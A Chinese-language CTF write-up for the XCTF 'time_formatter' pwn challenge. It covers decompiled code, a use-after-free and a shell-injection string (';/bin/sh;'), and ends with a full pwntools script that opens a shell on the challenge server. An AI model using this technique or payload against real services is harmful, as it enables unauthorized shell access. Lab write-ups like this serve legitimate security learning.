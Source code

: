 ### 1.攻防世界 time_formatter
```C
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __gid_t v3; // eax
  FILE *v4; // rdi
  __int64 v5; // rdx
  int v6; // eax

  v3 = getegid();
  setresgid(v3, v3, v3);
  setbuf(stdout, 0LL);
  puts("Welcome to Mary's Unix Time Formatter!");
  do
  {
    while ( 2 )
    {
      puts("1) Set a time format.");
      puts("2) Set a time.");
      puts("3) Set a time zone.");
      puts("4) Print your time.");
      puts("5) Exit.");
      __printf_chk(1LL, (__int64)"> ");
      v4 = stdout;
      fflush(stdout);
      switch ( get_choice_num() )
      {
        case 1:
          v6 = set_format();
          break;
        case 2:
          v6 = set_time();
          break;
        case 3:
          v6 = set_time_zone();
          break;
        case 4:
          v6 = print_time((__int64)v4, (__int64)"> ", v5);
          break;
        case 5:
          v6 = exit();
          break;
        default:
          continue;
      }
      break;
    }
  }
  while ( !v6 );
  return 0LL;
}
```
在case4这个函数调用中看到了这个东西。</br>
![time_formatter1](./pic/gfsj/time_formatter1.png)

试试这个shell注入`';/bin/sh;'`</br>
![time_formatter2](./pic/gfsj/time_formatter2.png)

可以得到shell。想办法将这个字符串注入到ptr中，问题是这个set_format这个函数中存在过滤，不让使用单引号和分号。</br>
![time_formatter3](./pic/gfsj/time_formatter3.png)

不过好在还有一个set_time_zone函数不存在过滤，并且发现在exit函数中存在`UAF`漏洞.先free再判断是否退出。</br>
![time_formatter4](./pic/gfsj/time_formatter4.png)

那么思路就很明确了，先创建一个chunk，再free掉，再用set_time_zone把这个chunk取出,并且写入`';/bin/sh;'`，这个时候value和ptr指针都是指向这个chunk的，再调用print_time函数拿到shell。</br>
```python
#coding=utf-8
from pwn import *


io = remote('111.198.29.45', 58222)


context.log_level = "debug"

io.recvuntil("> ")
io.sendline("1")
io.recvuntil("Format: ")
io.sendline("a")
io.recvuntil("> ")
io.sendline("5")
io.recvuntil("Are you sure you want to exit (y/N)? ")
io.sendline('s') # 不是y都行
io.recvuntil("> ")
io.sendline("3")
io.recvuntil("Time zone: ")
io.sendline("';/bin/sh;'")
io.recvuntil("> ")
io.sendline('4')
io.interactive()
```
